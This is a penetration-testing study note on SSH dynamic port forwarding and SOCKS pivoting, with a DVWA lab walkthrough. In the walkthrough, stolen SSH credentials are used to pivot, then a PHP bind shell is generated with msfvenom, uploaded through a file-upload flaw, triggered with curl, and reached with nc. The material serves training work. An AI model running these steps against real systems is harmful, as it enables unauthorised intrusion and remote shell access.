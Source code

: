 # Dynamic Port Forwarding

## 01 - Usage

```
$ cat /etc/ssh/sshd_config
..[truncated]..
AllowTcpForwarding yes
..[truncated]..
```

### 1.1 - Syntax

`$ ssh -D [<bind_local_IP>:]<local_SOCKS_PORT> <username>@<pivot_SSH_IP>`

### 1.2 - Methods

`$ ssh <username>@<pivot_IP> -D1080`

- Method 1: `proxychains`

```
$ cat /etc/proxychains4.conf
..[truncated]..
socks4  127.0.0.1 1080

$ proxychains firefox <target_IP>
```

- Method 2: FoxyProxy

You can use a **FoxyProxy** firefox extension to create a pattern

![[01 - New SOCKS Proxy Configuration.png]]

Then select **SOCKS4 Proxy** that you've created.

![[02 - FoxyProxy Select SOCKS Proxy Pattern.png]]

- Method 3: Firefox's Network Settings

You can go to Firefox's **Network Settings**

![[03 - Firefox Network Settings.png]]

Then edit the **SOCKS Host**

![[04 - Firefox Manual Proxy Configuration.png]]

## 02 - Scenarios

### 2.1 - Bind Shell via Proxychains

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

Let's say we were able to compromise the machine and got the SSH credentials and finally establish the SSH server as a foothold to start a socks proxy dynamic port forwarding 1080

`user@pentestos:~$ ssh -NTfCq -D1080 vagrant@10.0.2.10`

![[01 - Linux Machine Pivoting.png]]

Then we configure the SOCKS4/SOCKS5 through **FoxyProxy** firefox extension with the following settings

![[02 - FoxyProxy SOCKS Proxy Configuration.png]]

Then we choose the **SOCKS4 Proxy** to make connection to the webserver

![[03 - Select FoxyProxy Pattern.png]]

We will use the **DVWA (Damn Vulnerable Web Application)** as an example to simulate the cyber attack of the file upload vulnerability

![[04 - DVWA File Upload Webpage.png]]

We generate a PHP bind shell then we upload it.

`user@pentestos:~$ msfvenom -p php/bind_php lport=8888 -f raw -o shell.php`

![[05 - Callback Shell Uploaded.png]]

Then we must activate the PHP bind shell to start a listener of port **8888** and there are two ways to do it:

- Method 1: Navigate through the URL with FoxyProxy

Using any web browser like firefox to navigate the path of the URL.

![[06 - Navigate URL FoxyProxy.png]]

- Method 2: Proxychains with cURL

Using the `curl` command with `proxychains` to execute the webserver while pivoting.

`user@pentestos:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/shell.php`

It starts a listening port of **8888** that is awaiting for connection from the compromised webserver

```
$ ss -lnt
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:8888                    0.0.0.0:*
LISTEN       0            511                            *:80                            *:*
```

Establishing the bind shell to execute further commands by entering the IP address and the Port that we've generated the bind shell.

`user@pentestos:~$ proxychains nc 192.168.56.106 8888`

![[07 - Callback Shell via Proxychains.png]]

This can be applied with webshells like [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/Callback Shells/Webshells/Webshells#^e8491c|weevely]] as well.

---
## References

- [PayloadsAllTheThings: Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [FareedFauzi OSCP Playbook: Port Forwarding SSH Tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)